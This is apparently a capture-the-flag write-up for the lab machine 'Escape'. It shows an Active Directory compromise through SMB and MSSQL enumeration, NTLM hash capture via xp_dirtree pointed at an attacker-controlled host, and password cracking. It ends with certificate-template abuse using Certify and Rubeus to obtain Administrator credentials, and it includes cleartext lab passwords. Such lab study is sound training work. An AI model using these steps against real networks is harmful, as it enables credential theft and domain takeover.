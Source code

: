 # Escape

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 -Pn 10.129.242.117
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-04 06:51 EST
Nmap scan report for 10.129.242.117
Host is up (0.0078s latency).
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
1433/tcp  open  ms-sql-s
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49689/tcp open  unknown
49690/tcp open  unknown
49710/tcp open  unknown
49714/tcp open  unknown
```

Looks like an AD machine to me. Interestingly, they made port 1433 public facing.&#x20;

### SMB Enum

We can find one share available through `smbmap`:

```
$ smbmap -u 'guest' -p '' -H 10.129.242.117
[+] IP: 10.129.242.117:445      Name: 10.129.242.117                                    
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        Public                                                  READ ONLY
        SYSVOL                                                  NO ACCESS       Logon server share
```

Before checking this share out, we can enumerate the possible usernames and groups using `enum4linux` with the same credentials. We find the the domain name is called `sequel`.

```
S-1-5-21-4078382237-1492182817-2568127209-500 sequel\Administrator (Local User)              
S-1-5-21-4078382237-1492182817-2568127209-501 sequel\Guest (Local User)
S-1-5-21-4078382237-1492182817-2568127209-502 sequel\krbtgt (Local User)
S-1-5-21-4078382237-1492182817-2568127209-512 sequel\Domain Admins (Domain Group)
...
```

Checking the share out, we can find that there's one file here:

```
$ smbclient //10.129.242.117/Public -U 'guest'
Password for [WORKGROUP\guest]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Nov 19 06:51:25 2022
  ..                                  D        0  Sat Nov 19 06:51:25 2022
  SQL Server Procedures.pdf           A    49551  Fri Nov 18 08:39:43 2022
```

We can download this file and view it.&#x20;

### SQL Server Procedures

This is the file contents:

<figure><img src="../../../.gitbook/assets/image (52).png" alt=""><figcaption></figcaption></figure>

The next page contains a guest login for the SQL server. We also find a user called `brandon.brown`, who is likely some kind of database administrator.&#x20;

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

We can use `mssqlclient.py` to connect and interact with this database:

```
$ impacket-mssqlclient WORKGROUP/PublicUser:GuestUserCantWrite1@10.129.242.117
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC\SQLMOCK): Line 1: Changed database context to 'master'.
[*] INFO(DC\SQLMOCK): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL>
```

I was able to confirm that `xp_dirtree` is working on this SQL database, thus allowing us to capture hashes either via `smbserver.py` or `responder`.

Just run this within the database:

```
EXEC xp_dirtree '\\10.10.14.7\share'
```

Afterwards, we would capture an NTLM hash.

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

We can try to crack this hash via whatever method available to find this password:

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
REGGIE1234ronnie (sql_svc)
```

With these credentials, I was able to login via `evil-winrm`.

<figure><img src="../../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### SQL Logs

This user did not have the flag or any other local privileges. However, since we are an SQL user, we can perhaps read some sensitive SQL files.

Within the `C:\SQLServer\Logs` file, we can find an ERRORLOG file:

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Within that file, we can find some credentials:

```
2022-11-18 13:43:07.44 Logon       Logon failed for user 'sequel.htb\Ryan.Cooper'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
2022-11-18 13:43:07.48 Logon       Logon failed for user 'NuclearMosquito3'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
```

With these credentials, we can login as `ryan.cooper`.

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

We can grab the user flag now.

### Certify.exe --> Admin NTLM

I ran a winPEAS scan to enumerate for me. This scan found some certificates on the machine that could potentially be the PE vector.

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

We can use `certify.exe` to find out if this is vulnerable. Using `certify.exe find /vulnerable`, we can find one certificate:

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

We can then request for this certificate using this command:

```
.\certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:Administrator
```

This would output an RSA key and a certificate:

<figure><img src="../../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

Afterwards, we can simply use `openssl` to convert this output into a .pfx file:

```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

Then, transfer the pfx file and `rubeus.exe` to the machine. We can use `asktgt` with the certificate.

<figure><img src="../../../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

Now that we have confirmed this works, we can append `/getcredentials` to the end of the Rubeus command.

<figure><img src="../../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

Then, just pass the hash!

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>
